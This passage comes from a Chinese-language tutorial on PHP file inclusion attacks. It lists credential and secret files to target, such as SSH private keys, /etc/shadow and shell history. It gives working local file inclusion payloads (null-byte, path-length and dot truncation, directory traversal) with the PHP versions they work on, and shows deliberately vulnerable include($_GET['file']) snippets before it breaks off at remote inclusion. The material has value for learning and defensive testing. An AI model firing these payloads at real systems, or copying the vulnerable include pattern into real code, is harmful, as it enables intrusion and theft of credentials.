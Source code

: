 **如果拥有root权限还可以试试读这些东西：**

`/root/.ssh/authorized_keys`

`/root/.ssh/id_rsa`

`/root/.ssh/id_rsa.keystore`

`/root/.ssh/known_hosts`

`/etc/shadow`

`/root/.bash_history`

`/root/.mysql_history`

`/proc/self/fd/fd[0-9]*(文件标志符)`

`/proc/mounts`

`proc/config.gz`

### 有限制的本地文件包含

```php
#!php
<?php
	include("inc/" . $_GET['file'] . ".htm");
?>
```

**%00截断：**

`?file=../../../../../../../../../etc/passwd%00`

（需要`magic_quotes_gpc=off`，php小于5.3.4有效）

**%00截断目录遍历：**

`?file=../../../../../../../../../var/www/account/%00`

（需要`magic_quotes_gpc=off`，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris）

**路径长度截断：**

`?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.`

（php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256）

**点号截断：**

`?file=../../../../../../../../../boot.ini/......[...]......`

（php版本小于5.2.8(?)可以成功，只用于windows，点号需要长于256）

## 0x04 远程文件包含

### 普通远程文件包含

```php
#!php
<?php
	include($_GET['file']);
?>
```
